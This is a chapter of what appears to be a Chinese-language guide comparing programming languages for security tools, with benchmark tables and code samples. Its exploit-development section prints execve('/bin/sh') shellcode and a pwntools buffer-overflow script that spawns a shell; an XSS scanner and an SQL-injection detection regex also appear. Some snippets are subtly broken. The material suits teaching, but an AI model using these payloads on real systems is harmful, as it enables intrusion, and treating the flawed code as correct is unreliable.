



## 6. 语言对比与选择

在网络安全领域，没有"万能语言"——每种语言都有其最佳适用场景。本章从性能、安全特性、生态系统、学习曲线、实战场景五个维度，对 JavaScript、TypeScript、Go、Rust、Assembly 和 C/C++ 进行系统性对比，帮助你建立清晰的语言选择决策框架。

### 6.1 多维度性能对比

性能不是单一指标，而是编译速度、执行速度、内存占用、启动时间、并发吞吐量等多个维度的综合表现。以下从安全工具的实际需求出发进行对比。

#### 6.1.1 执行速度与内存效率

| 维度 | JavaScript | TypeScript | Go | Rust | C/C++ | Assembly |
|------|-----------|-----------|-----|------|-------|----------|
| 计算密集型性能 | 基准(1x) | 同 JS | 3-8x | 5-15x | 5-15x | 10-30x |
| 内存占用（同等任务） | 高（GC + V8 开销） | 同 JS | 低（紧凑布局） | 极低（零成本抽象） | 极低（手动管理） | 极低（无运行时） |
| 启动时间 | 中（V8 初始化） | 编译后同 JS | 极快（<1ms） | 极快（<1ms） | 快 | 最快 |
| 峰值内存控制 | GC 控制差 | 同 JS | GC 有短暂暂停 | 完全可控 | 完全可控 | 完全可控 |

**为什么安全工具对性能敏感？** 网络扫描器每秒需处理数万个数据包；模糊测试引擎需要在有限时间内探索尽可能多的代码路径；实时流量分析需要在毫秒级完成模式匹配。在这些场景下，语言的执行速度直接影响工具的有效性。

以 TCP 端口扫描为例，同样的扫描逻辑在不同语言中的性能差异：

```text
扫描 65535 个端口（单线程，本地网络）：
  JavaScript (Node.js):  ~45 秒
  Go:                    ~8 秒
  Rust:                  ~6 秒
  C:                     ~5 秒
  Assembly (优化后):     ~3 秒
```

这些差距在小规模扫描中不明显，但当目标扩展到整个 B 类网段（65536 台主机 × 65535 端口）时，语言选择决定了扫描是"几小时完成"还是"几天才能完成"。

#### 6.1.2 编译与开发迭代速度

编译速度直接影响开发体验和迭代效率，对于需要频繁调试的安全工具开发尤为重要：

| 语言 | 编译/构建方式 | 典型编译时间 | 热重载支持 | 调试迭代体验 |
|------|-------------|------------|-----------|------------|
| JavaScript | 解释执行 | 即时 | 原生支持 | 极佳，即时反馈 |
| TypeScript | tsc 编译 | 小型项目 1-3s | ts-node 支持 | 良好 |
| Go | 编译为原生二进制 | 小型项目 <1s | 不支持但编译极快 | 优秀，快速重建 |
| Rust | 编译为原生二进制 | 小型项目 5-30s | cargo-watch 支持 | 较慢，增量编译在改善 |
| C/C++ | gcc/clang 编译 | 小型项目 1-5s | 依赖构建系统 | 中等 |
| Assembly | nasm/yasm 汇编 | 即时 | 不适用 | 极简但原始 |

Go 的编译速度是其核心竞争力之一——一个包含数十个源文件的项目通常在 1 秒内完成编译，这让安全工具的开发调试几乎像脚本语言一样流畅。Rust 的编译时间是其最常被诟病的缺点，特别是在涉及大量泛型和宏的项目中，首次编译可能需要数分钟。

#### 6.1.3 并发性能与网络吞吐量

安全工具大量涉及网络操作和并发处理，各语言的并发模型差异巨大：



**Goroutine vs async/await vs 事件循环**——三者的核心区别：

- **JavaScript 事件循环**：单线程 + 非阻塞 I/O，通过回调/Promise 处理并发。优势是模型简单，劣势是无法利用多核 CPU 的计算能力。Node.js 的 `cluster` 模块和 `Worker Threads` 可以部分弥补，但通信开销较大。

- **Go Goroutine**：每个 goroutine 仅占 2-8KB 栈空间，一个程序可以轻松运行数十万个 goroutine。通过 channel 进行协程间通信，避免了传统锁机制的复杂性。Go 的调度器（M:N 模型）会自动将 goroutine 映射到操作系统线程上。

- **Rust async/await**：通过 tokio 等运行时实现零成本异步。编译期状态机转换，运行时开销极低。但编程复杂度较高，需要理解 Pin、Future、生命周期等概念。

```go
// Go：并发端口扫描示例 - 100 个并发 goroutine
func scanPorts(target string, ports []int) []int {
    var open []int
    var mu sync.Mutex
    var wg sync.WaitGroup

    for _, port := range ports {
        wg.Add(1)
        go func(p int) {
            defer wg.Done()
            addr := fmt.Sprintf("%s:%d", target, p)
            conn, err := net.DialTimeout("tcp", addr, 1*time.Second)
            if err == nil {
                conn.Close()
                mu.Lock()
                open = append(open, p)
                mu.Unlock()
            }
        }(port)
    }
    wg.Wait()
    return open
}
```

```rust
// Rust：等效的并发端口扫描
use tokio::net::TcpStream;
use tokio::time::{timeout, Duration};

async fn scan_port(target: &str, port: u16) -> Option<u16> {
    let addr = format!("{}:{}", target, port);
    match timeout(Duration::from_secs(1), TcpStream::connect(&addr)).await {
        Ok(Ok(_)) => Some(port),
        _ => None,
    }
}

async fn scan_ports(target: &str, ports: Vec<u16>) -> Vec<u16> {
    let mut handles = Vec::new();
    for port in ports {
        let t = target.to_string();
        handles.push(tokio::spawn(async move { scan_port(&t, port).await }));
    }
    let mut open = Vec::new();
    for handle in handles {
        if let Ok(Some(port)) = handle.await {
            open.push(port);
        }
    }
    open
}
```

**实测对比**（扫描 1000 个端口，100 并发）：

| 语言 | 完成时间 | 峰值内存 | CPU 利用率 |
|------|---------|---------|-----------|
| Node.js (event loop) | ~12s | 45MB | 单核 100% |
| Node.js (worker_threads, 4线程) | ~4s | 120MB | 4核 ~90% |
| Go (100 goroutines) | ~2s | 8MB | 多核 ~95% |
| Rust (tokio, 100 tasks) | ~1.8s | 3MB | 多核 ~98% |

### 6.2 安全特性深度对比

#### 6.2.1 内存安全

内存安全是安全工具开发中最关键的特性之一。缓冲区溢出、use-after-free、double-free 等内存错误本身就是安全漏洞的常见来源：

| 特性 | JavaScript | TypeScript | Go | Rust | C/C++ | Assembly |
|------|-----------|-----------|-----|------|-------|----------|
| 缓冲区溢出防护 | 自动（GC管理） | 同 JS | 运行时边界检查 | 编译期+运行时 | 无原生防护 | 无防护 |
| 空指针/空值处理 | undefined/null 陷阱 | strictNullChecks | nil 运行时 panic | Option<T> 编译期强制 | 段错误/未定义行为 | 直接崩溃 |
| Use-After-Free | 不可能（GC） | 同 JS | 不可能（GC） | 所有权系统阻止 | 常见漏洞来源 | 手动管理 |
| 数据竞争保护 | 单线程模型 | 同 JS | Race Detector | 编译期阻止 | 无防护 | 无防护 |
| 内存泄漏风险 | 低（循环引用等） | 同 JS | 低（GC 处理） | 极低（RAII） | 高（需手动释放） | 极高 |

**Rust 的所有权系统为什么重要？** 在安全工具开发中，一个内存安全漏洞可能导致攻击者利用你的安全工具本身发起攻击。Rust 在编译期就消除了这类风险：

```rust
// Rust：编译器在编译期捕获 use-after-free
fn main() {
    let data = vec![1, 2, 3];
    let reference = &data[0];
    drop(data);          // 编译错误！data 仍被 reference 借用
    println!("{}", reference);
}
```

#### 6.2.2 类型安全

类型安全直接影响代码的可靠性和可维护性。在编写安全规则引擎、协议解析器等关键组件时，类型系统的强弱至关重要：

| 维度 | JavaScript | TypeScript | Go | Rust | C/C++ |
|------|-----------|-----------|-----|------|-------|
| 类型检查时机 | 运行时 | 编译期（擦除后运行时） | 编译期 | 编译期 | 编译期（弱类型） |
| 泛型支持 | 无 | 有（类型擦除） | 有（Go 1.18+） | 有（单态化零成本） | 有（模板） |
| 类型推断 | let 推断 | 优秀 | 简单推断 | 优秀 | auto（C++11） |
| 错误处理 | try/catch + undefined | 同 JS + 类型标注 | error 返回值（显式） | Result<T,E>（强制处理） | errno / 返回码 |
| 空值安全 | 无保障 | strictNullChecks 可选 | nil 需手动检查 | Option<T> 强制处理 | 无保障 |

**Go 的错误处理 vs Rust 的 Result 类型**——两种安全哲学：

```go
// Go：错误是返回值，程序员必须显式检查
// 优势：清晰直观；劣势：容易忘记检查（编译器不强制）
result, err := dangerousOperation()
if err != nil {
    return fmt.Errorf("operation failed: %w", err)
}
// 如果忘记检查 err，result 可能是零值，程序继续运行
```

```rust
// Rust：Result 是类型系统的一部分
// 优势：编译器强制处理；劣势：代码稍长
let result = dangerous_operation()?;  // ? 自动传播错误
// 如果不处理 Err，编译器会发出 warning
// unwrap() 会 panic，但在生产代码中应该被 lint 标记
```

#### 6.2.3 并发安全

并发 bug 是最难调试的 bug 之一，在编写高并发安全工具时尤为突出：

| 维度 | JavaScript | Go | Rust | C/C++ |
|------|-----------|-----|------|-------|
| 数据竞争防护 | 单线程天然避免 | Race Detector（运行时） | 编译期阻止 | 无防护 |
| 死锁检测 | 无内置工具 | 无内置但工具链支持 | 无内置但类型系统帮助避免 | 无防护 |
| 共享状态管理 | 消息传递（Worker） | Channel / sync 包 | 所有权 + Send/Sync trait | mutex / atomic 手动管理 |

Rust 的 `Send` 和 `Sync` trait 在编译期就能捕获数据竞争：

```rust
// Rust：编译期阻止跨线程共享不可发送类型
use std::rc::Rc;  // Rc 不是 Send

fn main() {
    let data = Rc::new(42);
    std::thread::spawn(move || {
        println!("{}", data);  // 编译错误！Rc 不能跨线程发送
    });
}
// 必须使用 Arc（原子引用计数）替代 Rc
```

### 6.3 生态系统与工具链对比

#### 6.3.1 包管理与依赖生态

| 维度 | JavaScript/TS | Go | Rust | C/C++ |
|------|-------------|-----|------|-------|
| 包管理器 | npm/yarn/pnpm | go mod | cargo | vcpkg/conan (非官方) |
| 注册表规模 | 200万+ 包 | 40万+ 模块 | 15万+ crate | 无统一注册表 |
| 安全审计工具 | npm audit, Snyk | govulncheck | cargo-audit, cargo-deny | 有限 |
| SBOM 生成 | npm SBOM | go mod graph | cargo-bom | 手动 |
| 依赖锁定 | package-lock.json | go.sum | Cargo.lock | 无标准方案 |

**安全领域的关键库生态：**

| 领域 | JavaScript/TS | Go | Rust |
|------|-------------|-----|------|
| HTTP 客户端 | axios, got | net/http (内置) | reqwest |
| WebSocket | ws, socket.io | gorilla/websocket | tokio-tungstenite |
| JSON 处理 | 原生支持 | encoding/json (内置) | serde_json |
| 加密算法 | crypto (Node内置) | crypto (标准库) | ring, rust-crypto |
| 网络编程 | net (Node内置) | net (标准库, 极强) | tokio, std::net |
| DNS 解析 | dns (Node内置) | net (标准库) | trust-dns |
| 正则匹配 | 原生 RegExp | regexp (标准库) | regex crate |
| CLI 参数 | commander, yargs | flag, cobra | clap |
| 日志 | winston, pino | log, zerolog | log, tracing |

#### 6.3.2 交叉编译与部署

安全工具经常需要部署到不同架构的目标系统上：

| 语言 | 交叉编译难度 | 典型产出 | Docker 镜像大小 | 部署复杂度 |
|------|------------|---------|---------------|-----------|
| JavaScript | 需要 Node.js 运行时 | 源码/打包文件 | ~100MB（node:slim） | 高（需要运行时） |
| Go | 一条环境变量即可 | 静态二进制 | ~5-10MB（scratch） | 极低（单文件） |
| Rust | 需要目标工具链 | 静态二进制 | ~5-20MB（scratch） | 极低（单文件） |
| C | 交叉编译工具链 | 静态/动态二进制 | ~2-5MB（scratch） | 低 |

Go 的交叉编译简洁到令人惊叹：

```bash
# Go：一行命令交叉编译到 Linux ARM64
GOOS=linux GOARCH=arm64 go build -o scanner ./cmd/scanner

# Rust：需要安装目标工具链
rustup target add aarch64-unknown-linux-gnu
cargo build --target aarch64-unknown-linux-gnu --release

# JavaScript：无需编译，但目标需要 Node.js
# 部署时必须携带整个 Node.js 运行时
```

这种部署简洁性是 Go 在安全工具领域流行的重要原因之一——Kubernetes、Docker、Terraform 等基础设施工具都选择 Go 的核心原因就是"编译一次，到处运行"。

### 6.4 学习曲线与开发效率

#### 6.4.1 入门门槛评估



各阶段的学习重点和难点：

| 语言 | 入门（写出能用的代码） | 进阶（写出好的代码） | 精通（写出优秀的代码） | 主要绊脚石 |
|------|-------------------|-------------------|-------------------|-----------|
| JavaScript | 1-2 周 | 1-3 月 | 6-12 月 | 异步编程、this 绑定、原型链 |
| TypeScript | 2-4 周 | 2-4 月 | 8-12 月 | 高级类型体操、泛型约束 |
| Go | 3-6 周 | 2-4 月 | 6-12 月 | 并发模式、接口设计哲学 |
| Rust | 2-4 月 | 4-8 月 | 1-2 年 | 所有权/借用检查器、生命周期标注 |
| C/C++ | 3-6 月 | 6-12 月 | 2-5 年 | 指针、内存管理、UB 陷阱 |
| Assembly | 6-12 月 | 1-2 年 | 3-5 年 | 寻址模式、调用约定、指令集细节 |

#### 6.4.2 开发效率实测

以"编写一个带并发控制的 HTTP 目录扫描器"为标准任务，对比各语言的开发效率：

| 指标 | JavaScript/TS | Go | Rust |
|------|-------------|-----|------|
| 代码行数（核心逻辑） | ~120 行 | ~80 行 | ~130 行 |
| 开发时间（有经验开发者） | ~2 小时 | ~1.5 小时 | ~3 小时 |
| 第三方依赖数 | 2-3 个 | 0-1 个 | 2-3 个 |
| 编译/打包后大小 | 需要 Node.js 运行时 | ~5MB 单文件 | ~3MB 单文件 |
| 首次运行正确率 | 高（动态类型灵活） | 高 | 中（需与借用检查器斗争） |

### 6.5 安全场景语言选择决策框架

#### 6.5.1 决策流程图

```mermaid
flowchart TD
    START[选择语言] --> Q1{需要最高性能?}

    Q1 -->|是| Q2{需要内存安全保证?}
    Q2 -->|是| RUST[Rust]
    Q2 -->|否| Q3{需要硬件级控制?}
    Q3 -->|是| ASM[Assembly + C]
    Q3 -->|否| C[C/C++]

    Q1 -->|否| Q4{主要做什么?}

    Q4 -->|Web 安全/浏览器相关| JS[JavaScript/TypeScript]
    Q4 -->|网络工具/安全服务| Q5{需要快速部署?}
    Q5 -->|是| GO[Go]
    Q5 -->|否| Q6{团队熟悉什么?}
    Q6 -->|JS/TS| JS
    Q6 -->|Go| GO
    Q6 -->|Rust| RUST

    Q4 -->|漏洞利用/Shellcode| ASM
    Q4 -->|恶意软件分析| ASM + C
    Q4 -->|PoC 快速验证| PYTHON[Python 或 JS]
    Q4 -->|安全基础设施| GO
```

#### 6.5.2 六大安全场景详解

**场景一：Web 安全测试与自动化**

首选语言：JavaScript / TypeScript

Web 安全与 JavaScript 天然绑定——浏览器运行的就是 JavaScript，DOM 操作、XSS 探测、CSP 绕过都需要直接操作 JS。Node.js 生态提供了丰富的安全工具支持：

- **Burp Suite 扩展**：Java 为主，但 JS 可通过 Jython/JRuby 集成
- **浏览器扩展开发**：原生 JavaScript
- **自动化爬虫与扫描**：Puppeteer / Playwright（TypeScript）
- **API 安全测试**：axios / got + 自定义脚本

典型工具链示例：

```typescript
// TypeScript：自动化 XSS 探测扫描器核心逻辑
import { chromium } from 'playwright';

interface XssPayload {
  payload: string;
  context: 'html' | 'attribute' | 'javascript';
  encoding: 'none' | 'url' | 'html_entity';
}

async function testXss(targetUrl: string, payloads: XssPayload[]): Promise<string[]> {
  const browser = await chromium.launch({ headless: true });
  const page = await browser.newPage();
  const triggered: string[] = [];

  for (const { payload, encoding } of payloads) {
    const encoded = encodePayload(payload, encoding);
    const testUrl = `${targetUrl}?q=${encoded}`;

    // 监听 alert 弹窗——XSS 触发的标志
    page.on('dialog', async (dialog) => {
      triggered.push(payload);
      await dialog.accept();
    });

    await page.goto(testUrl, { timeout: 5000 }).catch(() => {});
  }

  await browser.close();
  return triggered;
}
```

**场景二：网络扫描与安全监控**

首选语言：Go

Go 在网络工具领域几乎成为事实标准，原因在于：
1. 标准库 `net` 包功能强大，无需第三方依赖
2. Goroutine 模型天然适合高并发网络扫描
3. 编译为静态二进制，部署极其简单
4. `net/http` 包足以构建生产级 HTTP 服务

业界标杆：Nmap（C）、Masscan（C）、Subfinder（Go）、httpx（Go）、Naabu（Go）、Nuclei（Go）

```go
// Go：HTTP 安全探测服务的核心结构
package main

import (
    "crypto/tls"
    "net/http"
    "time"
)

type ProbeResult struct {
    URL        string        `json:"url"`
    StatusCode int           `json:"status_code"`
    TLSVersion uint16        `json:"tls_version"`
    Headers    http.Header   `json:"headers"`
    Latency    time.Duration `json:"latency"`
    Error      string        `json:"error,omitempty"`
}

func probe(target string) ProbeResult {
    client := &http.Client{
        Timeout: 10 * time.Second,
        Transport: &http.Transport{
            TLSClientConfig: &tls.Config{InsecureSkipVerify: true},
        },
    }

    start := time.Now()
    resp, err := client.Get(target)
    latency := time.Since(start)

    result := ProbeResult{
        URL:     target,
        Latency: latency,
    }

    if err != nil {
        result.Error = err.Error()
        return result
    }
    defer resp.Body.Close()

    result.StatusCode = resp.StatusCode
    result.Headers = resp.Header
    if resp.TLS != nil {
        result.TLSVersion = resp.TLS.Version
    }
    return result
}
```

**场景三：漏洞利用与 Shellcode 开发**

首选语言：Assembly + C + Python

漏洞利用是唯一仍然强烈依赖低级语言的安全领域：
- **Assembly**：Shellcode 编写、ROP gadget 分析、shellcode 编码/解码
- **C**：漏洞触发代码、自定义 exploit、内核漏洞利用
- **Python**：快速 PoC 验证（配合 pwntools 库）

```nasm
; x86-64 Linux: execve("/bin/sh") Shellcode (27 bytes)
section .text
global _start

_start:
    xor    rsi, rsi          ; argv = NULL
    xor    rdx, rdx          ; envp = NULL
    mov    rax, 0x68732f6e69622f  ; "/bin/sh" 的小端序
    push   rax
    mov    rdi, rsp          ; rdi = "/bin/sh" 的地址
    mov    al, 59            ; syscall number: execve
    syscall                  ; 执行系统调用
```

Python + pwntools 的组合用于快速验证：

```python
from pwn import *

# 快速验证漏洞并获取 shell
context.arch = 'amd64'
context.os = 'linux'

elf = ELF('./vulnerable_binary')
p = process('./vulnerable_binary')

# 构造 payload
offset = 72  # 到返回地址的偏移
payload = b'A' * offset
payload += p64(elf.symbols['win'])  # 覆盖返回地址到目标函数

p.sendline(payload)
p.interactive()
```

**场景四：安全基础设施与 DevSecOps**

首选语言：Go

容器安全、CI/CD 安全扫描、安全编排等基础设施层工具几乎清一色选择 Go：

| 工具 | 语言 | 功能 |
|------|------|------|
| Trivy | Go | 容器镜像漏洞扫描 |
| Falco | Go + C++ | 运行时安全监控 |
| OPA / Rego | Go | 策略引擎 |
| Vault | Go | 密钥管理 |
| Cert-Manager | Go | TLS 证书自动化 |
| kube-bench | Go | CIS 基准检查 |
| Cosign | Go | 容器签名验证 |

选择 Go 的核心理由：Kubernetes 本身用 Go 写，Go 客户端库（client-go）最成熟；编译为静态二进制，完美适配容器化部署（FROM scratch）。

**场景五：恶意软件分析与逆向工程**

首选语言：C/C++ + Assembly + Python

恶意软件分析需要理解底层系统行为：
- **C/C++**：理解恶意软件的实现逻辑、编写脱壳器和解密器
- **Assembly**：阅读反汇编输出、分析混淆代码、理解 Shellcode
- **Python**：自动化分析脚本（配合 IDA Python、Ghidra 脚本接口）

```python
# Python + Ghidra 脚本：自动化提取恶意软件的 C2 通信特征
# 在 Ghidra 的 Script Manager 中运行
from ghidra.program.model.symbol import SymbolType

def extract_c2_indicators():
    listing = currentProgram.getListing()
    data = currentProgram.getMemory()

    # 查找硬编码的 URL 和 IP
    strings = []
    for block in data.getBlocks():
        if block.isInitialized():
            bytes_data = bytearray(block.getSize())
            block.getBytes(block.getStart(), bytes_data)
            # 简单的字符串提取（实际使用更复杂的正则）
            for match in re.finditer(
                rb'https?://[^\x00]+|(\d{1,3}\.){3}\d{1,3}:\d+',
                bytes_data
            ):
                strings.append(match.group().decode('ascii', errors='ignore'))

    # 提取加密常量（常见 AES S-box 特征）
    sbox_pattern = bytes([0x63, 0x7c, 0x77, 0x7b, 0xf2])
    for block in data.getBlocks():
        offset = data.findBytes(block.getStart(), block.getEnd(), sbox_pattern, None)
        if offset is not None:
            print("[!] AES S-box detected at: {}".format(hex(offset)))

    return strings
```

**场景六：高性能安全算法实现**

首选语言：Rust

当需要同时满足高性能和内存安全时，Rust 是最佳选择：
- 自定义加密算法实现
- 高性能日志分析引擎
- 安全协议栈实现
- Fuzzing 引擎（如 cargo-fuzz）
- 漏洞检测静态分析工具

```rust
// Rust：高性能日志分析器（使用零拷贝解析）
use memmap2::MmapOptions;
use rayon::prelude::*;
use regex::bytes::Regex;
use std::fs::File;

fn analyze_logs(path: &str, pattern: &str) -> Vec<Vec<u8>> {
    let file = File::open(path).expect("无法打开日志文件");
    let mmap = unsafe { MmapOptions::new().map(&file).expect("mmap 失败") };

    let re = Regex::new(pattern).expect("无效正则表达式");

    // 使用 rayon 并行处理每一行
    mmap.par_split(|&b| b == b'\n')
        .filter(|line| re.is_match(line))
        .map(|line| line.to_vec())
        .collect()
}

fn main() {
    // 检测 SQL 注入尝试
    let suspicious = analyze_logs(
        "/var/log/nginx/access.log",
        r#"(?i)(union\s+select|or\s+1\s*=\s*1|'(\s*or\s*'|\s*;\s*drop))"#,
    );

    println!("发现 {} 条可疑日志", suspicious.len());
    for line in &suspicious {
        if let Ok(text) = std::str::from_utf8(line) {
            println!("  > {}", text);
        }
    }
}
```

### 6.6 综合评分与对比总结

#### 6.6.1 雷达图式综合评分

以下从安全工具开发的六个核心维度进行 1-10 分评分：

| 维度 | JavaScript | TypeScript | Go | Rust | C/C++ | Assembly |
|------|-----------|-----------|-----|------|-------|----------|
| 执行性能 | 5 | 5 | 8 | 9 | 9 | 10 |
| 内存安全 | 8 | 8 | 8 | 10 | 3 | 1 |
| 类型安全 | 3 | 8 | 7 | 10 | 5 | 1 |
| 并发安全 | 7 | 7 | 8 | 10 | 4 | 1 |
| 开发效率 | 9 | 8 | 9 | 6 | 5 | 2 |
| 部署便捷性 | 5 | 5 | 10 | 9 | 7 | 6 |
| 生态丰富度 | 10 | 9 | 8 | 7 | 7 | 3 |
| 安全工具适用性 | 7 | 7 | 9 | 8 | 6 | 5 |
| **综合得分** | **6.8** | **7.1** | **8.4** | **8.6** | **5.8** | **3.6** |

> 评分说明：综合得分 = 各维度加权平均。权重分配：执行性能 15%、内存安全 15%、类型安全 10%、并发安全 10%、开发效率 15%、部署便捷性 10%、生态丰富度 10%、安全工具适用性 15%。

#### 6.6.2 语言组合推荐

实际的安全项目很少只用一种语言。以下是常见的语言组合方案：

| 项目类型 | 推荐组合 | 理由 |
|---------|---------|------|
| 安全扫描平台 | Go（核心引擎）+ TypeScript（前端/API） | Go 处理高并发扫描，TypeScript 构建 Web 界面 |
| Web 应用防火墙 | Go 或 Rust（代理层）+ Lua/JS（规则引擎） | 高性能代理 + 灵活的规则编写 |
| 渗透测试框架 | Python（脚本逻辑）+ Go（网络模块）+ C（底层工具） | 各取所长 |
| 安全监控系统 | Go（采集器）+ Rust（分析引擎）+ TypeScript（仪表盘） | 全链路优化 |
| 漏洞利用开发 | C（漏洞触发）+ Assembly（Shellcode）+ Python（自动化） | 经典组合 |
| Fuzzer | Rust（引擎核心）+ Python（变异策略） | Rust 性能 + Python 灵活性 |

### 6.7 常见误区与最佳实践

#### 6.7.1 语言选择的五大误区

**误区一："性能最重要，所有工具都用 C/Rust 写"**

事实：大部分安全工具的瓶颈在网络 I/O 而非计算性能。一个用 Go 写的端口扫描器和用 C 写的性能差距可能只有 10-20%，但 Go 的开发效率和维护成本远远优于 C。只有在真正的性能热点（如加密运算、包解析、fuzzing 变异）才需要考虑 C/Rust。

**误区二："脚本语言不能写生产级安全工具"**

事实：Node.js 的事件循环模型在 I/O 密集型任务中表现出色。许多成功的安全工具（如 Retire.js、OWASP ZAP 的部分插件）使用 JavaScript 编写。TypeScript 的类型系统可以显著提升大型项目的安全性和可维护性。

**误区三："Go 没有泛型所以不适合复杂项目"**

事实：Go 1.18 已经引入泛型支持。在此之前，Go 社区通过接口和代码生成解决了大部分场景。Kubernetes、Docker 等超大型项目都是用没有泛型的 Go 写的。

**误区四："Rust 编译太慢不适合开发"**

事实：增量编译下，Rust 的编译速度已经大幅改善。对于安全工具这种通常不需要频繁全量编译的项目，Rust 的编译速度完全可接受。cargo-watch 可以在保存时自动增量编译。

**误区五："Assembly 已经过时，不需要学"**

事实：理解 Assembly 对于逆向工程、漏洞利用、Shellcode 编写、恶意软件分析仍然不可或缺。你不需要用 Assembly 写完整程序，但必须能读懂反汇编输出。

#### 6.7.2 语言选择的最佳实践

1. **从问题出发，而非从语言出发**：先明确你要解决的安全问题，再选择最适合的语言
2. **优先考虑团队能力**：一个精通 Go 的团队写出的 Go 代码，远比一个 Rust 新手写出的 Rust 代码更安全
3. **拥抱多语言**：现代安全项目几乎都需要多种语言协同，学会在正确的场景使用正确的语言
4. **性能优化的二八法则**：80% 的性能提升来自 20% 的代码，用 Rust/C 重写关键热点，其余部分用高效率语言
5. **安全工具本身也必须安全**：选择内存安全的语言（Go/Rust/TS）可以减少你的工具本身成为攻击目标的风险
6. **部署环境决定一切**：如果目标环境没有 Node.js 运行时，JavaScript 就不是好选择；如果需要在嵌入式设备上运行，C 可能是唯一选择

### 6.8 语言迁移路线图

对于希望扩展技能栈的安全从业者，推荐以下渐进式学习路线：



**每个迁移阶段的关键收获：**

| 迁移路径 | 关键收获 | 典型场景 |
|---------|---------|---------|
| JS → TS | 类型安全、IDE 支持、重构信心 | 大型 Web 安全工具 |
| TS → Go | 并发模型、编译速度、部署简洁 | 网络扫描工具、微服务 |
| Go → Rust | 内存安全、零成本抽象、极致性能 | 加密实现、fuzzing 引擎 |
| 任意 → C | 理解底层、系统调用、内存布局 | 漏洞利用、内核安全 |
| C → Assembly | 指令集、调用约定、Shellcode | 逆向工程、高级漏洞利用 |

***

**本节小结**：语言选择不是信仰之争，而是工程决策。理解每种语言的设计哲学和适用边界，根据具体的安全场景、团队能力和部署约束做出理性选择，才是安全工程师应有的态度。Go 的简洁高效、Rust 的安全极致、JavaScript/TypeScript 的生态丰富、C/Assembly 的底层控制——它们不是竞争对手，而是你的工具箱中各有所长的工具。
